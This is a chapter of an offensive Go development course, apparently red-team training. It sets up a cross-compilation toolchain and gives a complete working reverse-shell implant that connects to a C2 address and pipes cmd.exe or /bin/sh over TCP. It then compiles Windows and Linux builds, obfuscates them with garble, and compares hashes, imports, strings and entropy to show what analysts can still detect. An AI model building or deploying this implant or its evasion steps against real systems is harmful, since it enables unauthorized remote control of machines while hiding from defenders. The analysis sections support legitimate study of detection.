

## **PART 5: PRACTICAL EXERCISES**

### **Exercise 1: Development Environment Setup**

Let's build a professional cross-compilation environment for offensive Go development.

**Step 1: Install Go**

```bash
# Linux/macOS
wget https://go.dev/dl/go1.21.5.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.21.5.linux-amd64.tar.gz

# Add to PATH (~/.bashrc or ~/.zshrc)
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin

# Verify
go version
# Should output: go version go1.21.5 linux/amd64
```

```powershell
# Windows (PowerShell as Admin)
# Download installer from https://go.dev/dl/
# Or use chocolatey:
choco install golang

# Verify
go version
```

**Step 2: Configure for Cross-Compilation**

```bash
# Go supports cross-compilation out of the box!
# No additional setup needed for basic targets

# Verify available targets
go tool dist list

# Output includes:
# windows/amd64
# windows/386
# linux/amd64
# darwin/amd64
# ... many more
```


**Step 3: Install Offensive Development Tools**

```bash
# 1. Garble (Obfuscation)
go install mvdan.cc/garble@latest

# 2. UPX (Compression) - optional, use cautiously
# Linux
sudo apt-get install upx-ucl

# macOS
brew install upx

# 3. PE Analysis Tools
# Windows: PE-bear, CFF Explorer, Detect It Easy
# Linux: Install via wine or use alternatives

# 4. MinGW for CGO (if you need C integration)
# Linux
sudo apt-get install mingw-w64

# Verify CGO cross-compilation
CGO_ENABLED=1 GOOS=windows GOARCH=amd64 CC=x86_64-w64-mingw32-gcc \
  go build -o test.exe test.go
```

**Step 4: IDE Setup (GoLand Recommended)**

```
GOLAND (JetBrains):
• Best Go IDE
• Excellent debugging
• Refactoring tools
• ~$90/year (free for students)

Configuration:
1. Install Go plugin
2. Set GOROOT: /usr/local/go
3. Set GOPATH: ~/go
4. Enable Go modules
5. Configure build tags for Windows target
```

**Alternative: VS Code**

```bash
# Install VS Code Go extension
code --install-extension golang.go

# Configuration (settings.json)
{
    "go.toolsManagement.autoUpdate": true,
    "go.useLanguageServer": true,
    "go.buildFlags": ["-ldflags=-s -w"],
    "go.buildTags": "windows"
}
```


### **Exercise 2: Compile Your First Offensive Go Binary**

Let's build a simple but functional reverse shell, then analyze it.

**implant.go:**

```go
package main

import (
	"net"
	"os"
	"os/exec"
	"runtime"
)

func main() {
	// C2 server address
	c2 := "192.168.1.100:4444"

	// Connect to C2
	conn, err := net.Dial("tcp", c2)
	if err != nil {
		os.Exit(0)
	}
	defer conn.Close()

	// Determine shell based on OS
	var cmd *exec.Cmd
	if runtime.GOOS == "windows" {
		cmd = exec.Command("cmd.exe")
	} else {
		cmd = exec.Command("/bin/sh")
	}

	// Pipe I/O through connection
	cmd.Stdin = conn
	cmd.Stdout = conn
	cmd.Stderr = conn

	// Execute
	cmd.Run()
}
```

**Building for Different Targets:**

```bash
# Windows 64-bit (from Linux/Mac)
GOOS=windows GOARCH=amd64 go build -o implant_win64.exe implant.go

# Windows 32-bit
GOOS=windows GOARCH=386 go build -o implant_win32.exe implant.go

# Linux 64-bit
GOOS=linux GOARCH=amd64 go build -o implant_linux64 implant.go

# Check sizes
ls -lh implant_*
```

<br> 



We can see here that the size of both the linux64 and win32 executables are 2.8MB, while the win64MB is 3.0MB.

Let's see what effect it will have if we strip the debug info:

```bash
# Strip debug info, reduce size
GOOS=windows GOARCH=amd64 go build \
  -ldflags="-s -w" \
  -trimpath \
  -o implant_optimized.exe \
  implant.go

```
<br> 


By stripping the debug info we've now managed to reduce the size further to 2.0MB.

Let's now use garble to encrypt our string:

```bash
# Obfuscate code
GOOS=windows GOARCH=amd64 garble -literals -tiny build \
  -o implant_obfuscated.exe \
  implant.go
# -literals: encrypt strings
# -tiny: optimize for size
```

<br> 


We can see that, despite the fact we ran tiny, the binary is now quite a bit larger at 4.3MB. 

So we have some sense of the impact we can have on the file-size, but let's see what actual impact these changes had on analysis.


### **Exercise 3: PE Analysis**

**NOTE:** We will do a basic, superficial analysis here. This is just to get you acquainted with some of the tooling 
we'll be using in the course, in future lessons we'll perform these same analyses in much more depth once we've 
established the required insight. 

Note that for PE Analysis I'll be using [PEBear](https://github.com/hasherezade/pe-bear) on a Windows system.

If you prefer to use the command-line on MacOS or Linux, you can use `readpe`, which can be installed using:

```shell
# Linux: Install readpe
sudo apt-get install pev

# MacOS
brew install pev
```


For this exercise let's compare the following 3 binaries:
1. `implant_win64.exe` ("vanilla" Windows 64-bit binary)
2. `implant_optimized.exe` (debug info stripped + optimized for size, Windows 64-bit binary)
3. `implant_obfuscated.exe` (strings obfuscated and size optimized using garble, Windows 64-bit binary)


#### General
##### `implant_win64.exe`


##### `implant_optimized.exe`


##### `implant_obfuscated.exe`


##### Observation
We can observe that while the MD5, SHA1, and SHA256 hashes are all affected by the different compiling techniques,
the ImpHash is not. 

**Knowledge Check** - explain why this is the case from first principles. 


#### IMPORTS (IAT - Import Address Table)
##### `implant_win64.exe`


##### `implant_optimized.exe`


##### `implant_obfuscated.exe`


##### Observation
Our IAT is unaffected - neither stripping the debug info, nor obfuscating strings has any impact on which modules
are statically linked, nor which module functions are being called.

**Knowledge Check** - explain why this is the case from first principles.

#### Strings
##### `implant_win64.exe`

- Observe entry 7388 for example, we can see the complete path the source file

##### `implant_optimized.exe`

- The same entry, now labelled 7391, still displays the source file name, but the path is stripped.

##### `implant_obfuscated.exe`

- All the strings are now garbled - they are randomized strings and symbols.

##### Observation
Our original compilation preserves a lot of sensitive information about our build and environment. Stripping the 
debug info removes a lot (though not all) sensitive information. Using garble to obfuscate our strings blurs all the info.


### **Exercise 4: Entropy Analysis**

Entropy is the "measure of randomness", and analysts can use it as a quick and effective proxy to detect obfuscation. So let's see what impact our obfuscation had on our entropy level. For this exercise I'll be using [Detect-It-Easy](https://github.com/horsicq/Detect-It-Easy),
which is available for all OS. Note that if you prefer other tools that may be used include PEStudio, Binwalk, and CyberChef.


#### implant_win64.exe


#### implant_optimized.exe


#### implant_obfuscated.exe


#### Observation
The entropy analysis of these three binaries reveals a counterintuitive but fundamental principle about what actually drives high entropy in executable files. At first glance, we'd expect the garbled binary to show the highest entropy since it's intentionally obfuscated with scrambled strings and mangled identifiers, yet it actually shows lower entropy than the first, unmodified binary. The explanation lies in understanding what truly maximizes randomness in binary data.

The first binary, compiled with a standard `go build` command, achieved the highest entropy rating of 6.84 (85% packed classification) not because of any obfuscation or packing, but because Go's compiler embedded compressed debug sections like `.zdebug_line` into the executable.

These compressed sections exhibit entropy values approaching 8.0 - near-perfect randomness - because compression algorithms eliminate redundancy and create dense, highly efficient data representations. When we look at the entropy graph, that flat line at the top represents these compressed sections dominating the overall entropy calculation.

When we stripped the debug information from the second binary, you removed precisely those high-entropy compressed sections, which is why the overall entropy dropped to 6.13 (76% not packed).

Similarly, the garbled binary, while containing thoroughly obfuscated strings and control flow, doesn't incorporate compression and was  also stripped of debug symbols. Garble's obfuscation creates complexity and makes reverse engineering harder, but obfuscated code still contains patterns and structure that prevent it from achieving the near-perfect randomness that compression delivers.

The fundamental lesson here is that **compressed data consistently produces higher entropy than obfuscated code,** which means debug symbols and compression have a far greater impact on entropy measurements than deliberate obfuscation techniques - a surprising reality that highlights how entropy alone cannot reliably distinguish between legitimate optimized binaries and intentionally packed malware.


---
[|TOC|]()
[|PREV|]()
[|NEXT|]()